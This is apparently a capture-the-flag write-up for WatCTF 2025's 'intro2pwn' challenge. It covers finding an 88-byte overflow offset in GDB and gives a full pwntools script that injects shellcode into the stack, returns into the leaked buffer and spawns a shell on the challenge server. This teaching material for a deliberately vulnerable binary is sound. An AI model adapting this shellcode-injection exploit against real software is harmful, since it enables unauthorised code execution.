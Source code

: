 ```yaml
---
title: "WatCTF 2025 – intro2pwn: Classic Buffer Overflow"
date: 2025-09-11
toc: true
---
```


> _An introductory pwn challenge; classic buffer overflow._

### TL;DR

The binary leaks the stack buffer address, uses scanf to overflow it, and has NX disabled. We drop shellcode in the buffer, pad 88 bytes to reach RIP, place a ret gadget for alignment, then overwrite with the leaked buffer address. Execution pivots straight into our shellcode and spawns a shell → flag.

### Getting the offset

```bahs
$ gdb -q ./vuln
pwndbg: loaded 207 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
...SNIP...
pwndbg> disas vuln
Dump of assembler code for function vuln:
   0x00000000004018d0 <+0>:     push   rbp
   0x00000000004018d1 <+1>:     mov    esi,0x49b02c
   0x00000000004018d6 <+6>:     mov    edi,0x2
   0x00000000004018db <+11>:    xor    eax,eax
   0x00000000004018dd <+13>:    mov    rbp,rsp
   0x00000000004018e0 <+16>:    push   rbx
   0x00000000004018e1 <+17>:    lea    rbx,[rbp-0x50]
   0x00000000004018e5 <+21>:    mov    rdx,rbx
   0x00000000004018e8 <+24>:    sub    rsp,0x48
   0x00000000004018ec <+28>:    call   0x426ef0 <__printf_chk>
   0x00000000004018f1 <+33>:    mov    rdi,QWORD PTR [rip+0xc4ef8]        # 0x4c67f0 <stdout>
   0x00000000004018f8 <+40>:    call   0x40dfc0 <fflush>
   0x00000000004018fd <+45>:    mov    rsi,rbx
   0x0000000000401900 <+48>:    mov    edi,0x49cefa
   0x0000000000401905 <+53>:    xor    eax,eax
   0x0000000000401907 <+55>:    call   0x404ba0 <__isoc99_scanf>
   0x000000000040190c <+60>:    mov    rbx,QWORD PTR [rbp-0x8]
   0x0000000000401910 <+64>:    leave
   0x0000000000401911 <+65>:    xor    eax,eax
   0x0000000000401913 <+67>:    xor    edx,edx
   0x0000000000401915 <+69>:    xor    esi,esi
   0x0000000000401917 <+71>:    xor    edi,edi
   0x0000000000401919 <+73>:    ret
End of assembler dump.
pwndbg> b *vuln+60
Breakpoint 1 at 0x40190c
```

Sending it pattern generated using cyclic:
```bash
pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

When the breakpoint is hit we can calculate the offset by looking at contents of `$rip`:

```bash
pwndbg> r
Starting program: /home/kali/Desktop/ctfs/watctf/intro2pwn/vuln 
Addr: 0x7fffffffdc20
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Breakpoint 1, 0x000000000040190c in vuln ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 RAX  1
 RBX  0x7fffffffdc20 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
 RCX  0
 RDX  0
 RDI  0
 RSI  0
 R8   0
 R9   0
 R10  0
 R11  0
 R12  0x7fffffffdd98 —▸ 0x7fffffffe115 ◂— '/home/kali/Desktop/ctfs/watctf/intro2pwn/vuln'
 R13  0x7fffffffdda8 —▸ 0x7fffffffe143 ◂— 'COLORFGBG=15;0'
 R14  0x4c2018 (__preinit_array_start) —▸ 0x401890 (frame_dummy) ◂— endbr64 
 R15  2
 RBP  0x7fffffffdc70 ◂— 'kaaaaaaalaaaaaaamaaa'
 RSP  0x7fffffffdc20 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
 RIP  0x40190c (vuln+60) ◂— mov rbx, qword ptr [rbp - 8]
────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────────
 ► 0x40190c <vuln+60>        mov    rbx, qword ptr [rbp - 8]     RBX, [0x7fffffffdc68] => 0x616161616161616a ('jaaaaaaa')
   0x401910 <vuln+64>        leave  
   0x401911 <vuln+65>        xor    eax, eax                     EAX => 0
   0x401913 <vuln+67>        xor    edx, edx                     EDX => 0
   0x401915 <vuln+69>        xor    esi, esi                     ESI => 0
   0x401917 <vuln+71>        xor    edi, edi                     EDI => 0
   0x401919 <vuln+73>        ret    
 
   0x40191a                  nop    word ptr [rax + rax]
   0x401920 <call_fini>      endbr64 
   0x401924 <call_fini+4>    push   rbp
   0x401925 <call_fini+5>    lea    rax, [rip + 0xc06fc]         RAX => 0x4c2028 (__preinit_array_start+16)
──────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────
00:0000│ rbx rsp 0x7fffffffdc20 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│-048     0x7fffffffdc28 ◂— 'baaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
02:0010│-040     0x7fffffffdc30 ◂— 'caaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
03:0018│-038     0x7fffffffdc38 ◂— 'daaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
04:0020│-030     0x7fffffffdc40 ◂— 'eaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
05:0028│-028     0x7fffffffdc48 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
06:0030│-020     0x7fffffffdc50 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
07:0038│-018     0x7fffffffdc58 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────
 ► 0         0x40190c vuln+60
   1 0x616161616161616c None
   2   0x7f006161616d None
   3         0x401e28 __libc_start_call_main+104
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> i f
Stack level 0, frame at 0x7fffffffdc80:
 rip = 0x40190c in vuln; saved rip = 0x616161616161616c
 called by frame at 0x7fffffffdc88
 Arglist at 0x7fffffffdc20, args: 
 Locals at 0x7fffffffdc20, Previous frame's sp is 0x7fffffffdc80
 Saved registers:
  rbx at 0x7fffffffdc68, rbp at 0x7fffffffdc70, rip at 0x7fffffffdc78
pwndbg> x/gx 0x7fffffffdc78
0x7fffffffdc78: 0x616161616161616c
```

Using cyclic to find the offset:

```bash
pwndbg> cyclic -l 0x616161616161616c
Finding cyclic pattern of 8 bytes: b'laaaaaaa' (hex: 0x6c61616161616161)
Found at offset 88
```

### Exploitation

We can use pwntools to parse the stack buffer address and then, send our payload to get shell:

```python
#!/usr/bin/env python3
from pwn import *

io = remote("challs.watctf.org", 1991)
io.recvuntil(b"Addr: 0x")

leak = int(io.recvline().strip(), 16)
log.info(f"vuln buffer: {hex(leak)}")

shellcode = asm(shellcraft.sh())
payload  = b""
payload += shellcode
payload += b"0" * (0x58-len(shellcode))
payload += p64(0x40101a)
payload += p64(leak)

io.sendline(payload)
io.interactive()
```

The payload would look like this in memory:

```
[ buf @ 0x7fff822c7560 ]
  |  /bin/sh shellcode…
  |  NOPs / padding
  |  ...
  |  <-- 0x58 bytes total -->
  v
[ Saved RBX ]   <-- smashed
[ Saved RBP ]   <-- smashed
[ Saved RIP ] = 0x40101a   (ret gadget)
[ Next qword ] = 0x7fff822c7560  (leaked buf addr)
```

> We are using an extra ret gadget to align the stack because modern versions of libc and syscall conventions expect the stack to be 16-byte aligned before making a call — particularly `execve` inside our shellcode. If you don't align it you might hit a segmentation fault. Since the call instruction that jumped to vuln() pushed a return address (8 bytes), and our ret gadget only adjusts by 8 more, we end up misaligned. Adding an extra ret before jumping into our buffer fixes that — it pops another 8 bytes off the stack, restoring alignment just before shellcode runs. Think of it as a trampoline to make sure the stack doesn’t trip before landing in shellcode.

### Conclusion

This challenge is a pure “old-school” buffer overflow: leak stack addr, drop shellcode, smash RIP, return into it. No ROP chains, no ASLR fights — just raw stack execution. Perfect intro for pwn.

